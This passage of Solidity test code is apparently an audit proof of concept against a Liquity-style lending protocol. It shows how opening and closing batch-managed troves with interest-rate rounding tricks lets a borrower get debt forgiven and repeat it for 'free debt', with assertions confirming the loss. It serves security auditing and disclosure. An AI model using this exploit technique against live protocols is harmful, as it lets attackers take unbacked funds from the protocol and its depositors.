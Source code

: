 ```solidity
        uint256 anotherATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        LatestTroveData memory anotherATrove = troveManager.getLatestTroveData(anotherATroveId);
        uint256 aDebt = anotherATrove.entireDebt;

        // It will pay zero debt
        assertEq(aDebt, 0, "Forgiven");

        uint256 balB4 = boldToken.balanceOf(A);
        closeTrove(A, anotherATroveId);
        uint256 balAfter = boldToken.balanceOf(A);

        // And we can repeat this to get free debt
        uint256 debtAfter = borrowerOperations.getEntireSystemDebt();

        assertEq(balB4, balAfter, "No thing was paid");
        assertGt(debtAfter, debtB4, "We got it for free");
    }
    
    uint128 subTractor = 1;

    // Trigger interest fee by changing the fee to it -1 
    function _triggerInterestRateFee() internal {
        // Add Fee?
        vm.warp(block.timestamp + 1);
        vm.startPrank(B);
        borrowerOperations.setBatchManagerAnnualInterestRate(1e18 - subTractor++, 0, 0, type(uint256).max);
        vm.stopPrank();
    }

    

    function _logTroveInBatch(uint256 troveId) internal {

        LatestTroveData memory troveData = troveManager.getLatestTroveData(troveId);
        console2.log("troveData debt", troveData.entireDebt);

        uint256 batchShares = _getBatchDebtShares(troveId);
        console2.log("batchShares", batchShares);
    }

    function _logTrovesAndBatch(address batch, uint256 troveB) internal {
        console2.log("");
        console2.log("_logTrovesAndBatch");
        // Log Batch Debt
        console2.log("_getLatestBatchDebt", _getLatestBatchDebt(batch));
        // Log all Batch shares
        console2.log("_getTotalBatchDebtShares", _getTotalBatchDebtShares(batch));

        _logTroveInBatch(troveB);
    }

    function _openCloseRemainderLoop(uint256 amt, uint256 BTroveId) internal {
        LatestTroveData memory troveBefore = troveManager.getLatestTroveData(BTroveId);

        // Open
        uint256 ATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);
        
        LatestTroveData memory b4Add = troveManager.getLatestTroveData(ATroveId);

        // Add debt that wont' be credited (fibonacci)
```